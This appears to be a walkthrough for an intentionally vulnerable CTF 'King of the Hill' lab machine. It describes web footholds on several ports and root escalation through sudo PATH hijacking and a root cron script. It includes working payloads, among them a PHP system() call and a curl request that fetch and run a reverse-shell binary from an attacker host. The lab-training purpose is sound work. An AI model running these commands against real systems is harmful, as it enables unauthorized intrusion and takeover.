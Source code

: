 # H1: Easy KOTH machine

Has a website on 8000, 8001, 8002 and 80.

Path to foothold:

- :8000 at /vbcms has a login form that can be passed with admin:admin. you can then edit the content of the home and about pages etc, injecting a web shell. this gets code execution as `serv1`
- :8001 has a support page that allows you to upload any file as long as its extension is .jpg. then the home page has a trivial file include, which allows you to achieve PHP LFI with your uploaded file. this will get you code execution as `serv2`
- :8002 has a PHP tutorial site, allowing direct execution of whatever PHP you supply (just remember to end lines with a semi colon). this gets you code execution as `serv3`
  - there is no nc on the machine. using reverse_ssh, a payload like `system("wget RHOST:1234/client -O /home/serv3/c && chmod +x /home/serv3/c && /home/serv3/c");` works
  - curl command: 
  
    ```
    curl -d "code=system(%22wget+10.10.10.157%3A1234%2Fclient+-O+%2Fhome%2Fserv3%2Fc+%26%26+chmod+%2Bx+%2Fhome%2Fserv3%2Fc+%26%26+%2Fhome%2Fserv3%2Fc%22)%3B" 10.10.136.24:8002/trycode
    ```

Path to root:

- `serv2` can under sudoers run a script (`serv2 ALL=(ALL:ALL) SETENV:NOPASSWD: /usr/bin/restartServer`) that eventually calls systemctl, and preserves env vars. by creating a file called `systemctl` in /tmp, putting /bin/sh inside it, marking it executable and then setting path to include tmp you can privect to root:

  `echo /bin/sh > /tmp/systemctl && chmod +x /tmp/systemctl && sudo PATH=/tmp:$PATH /usr/bin/restartServer`
  
- `serv3` has a backup.sh script under backups in their home folder that root will run every minute. simply popping a rev shell payload in there will get root.
  - this method has the advantage that it will get called continuosly and might be missed by king squatters
  - note the file needs to be made writable first, `chmod +w /home/serv3/backups/backup.sh`, and if using a binary like reverse_ssh, put it in serv3's home folder not temp.

    ```
    chmod +w /home/serv3/backups/backup.sh
    echo /home/serv3/c >> /home/serv3/backups/backup.sh
    rm /home/serv3/c # after connection is made
    ```

## Flags

- /root/root.txt
- /var/www/serv4/index.php
- /var/lib/rary
